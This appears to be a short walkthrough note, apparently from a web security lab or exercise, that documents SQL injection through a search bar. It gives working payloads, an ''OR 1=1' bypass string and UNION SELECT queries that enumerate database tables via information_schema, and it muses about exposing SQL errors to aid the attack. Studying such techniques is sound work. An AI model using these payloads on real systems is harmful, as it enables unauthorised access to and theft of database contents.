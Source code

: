 # SQL Injection

Simples sql injection is possible by putting `'OR 1=1) -- '` in the search bar

### Thought process

Could be good to allow user to look into the query syntax somehow on error (return sql errors straight to the fronted?)

Next step is getting info about tables:
`') UNION ALL SELECT 1, 2, 3, 4 FROM information_schema.tables -- .`

INFORMATION_SCHEMA.TABLES have columns:

> TABLE_NAME, ENGINE, VERSION, ROW_FORMAT, TABLE_ROWS, AVG_ROW_LENGTH,
> DATA_LENGTH, MAX_DATA_LENGTH, INDEX_LENGTH, DATA_FREE, AUTO_INCREMENT,
> CREATE_TIME, UPDATE_TIME, CHECK_TIME, TABLE_COLLATION, CHECKSUM,
> CREATE_OPTIONS, TABLE_COMMENT

Useful are probably those:

> TABLE_NAME, TABLE_ROWS

`') UNION ALL SELECT table_name, null,null,null FROM information_schema.tables -- .`
